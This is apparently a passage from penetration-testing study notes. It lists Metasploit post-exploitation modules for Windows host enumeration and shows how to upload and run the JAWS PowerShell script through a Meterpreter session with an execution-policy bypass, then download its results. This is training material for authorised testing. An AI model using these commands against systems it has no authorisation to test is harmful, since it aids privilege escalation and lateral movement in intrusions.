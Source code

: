 **Post exploitation**

```shell
# Lists the privileges available to the current user, useful for checking privilege escalation opportunities  
use post/windows/gather/win_privs

# Enumerates all users currently logged on to the system  
use post/windows/gather/enum_logged_on_users

# Detects whether the system is running inside a virtual machine  
use post/windows/gather/checkvm

# Retrieves a list of installed applications on the target system  
use post/windows/gather/enum_applications

# Enumerates computers in the same domain or network, useful for lateral movement  
use post/windows/gather/enum_computers

# Lists the patches installed on the target system to identify missing or outdated updates  
use post/windows/gather/enum_patches
```

**JAWS** (Just Another Windows Enum Script) is an open-source PowerShell script designed to help penetration testers automate local enumeration and identify privilege escalation vectors on Windows systems.

Paste in the script you copied in a text file, after which save the file as jaws-enum.ps1. 

```shell
sessions -i 1
cd C:\\
mkdir Temp
cd Temp
upload /root/jaws-enum.ps1

# After uploading the script successfully, we will need to spawn a command shell session.
shell
# We can now execute the jaws-enum.ps1 script by running the following command:
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
#  jaws-enum.ps1 script will run and save the results into a file called JAWS-Enum.txt
# Note: JAWS will take a couple of minutes to complete the enumeration process, so do not be alarmed if the script looks like it has paused or stopped running.

# Back to our Meterpreter session.
ls
download JAWS-Enum.txt
```

<br> 

## 2. Linux Local Enumeration

>**Gain access to the Linux target systems.**
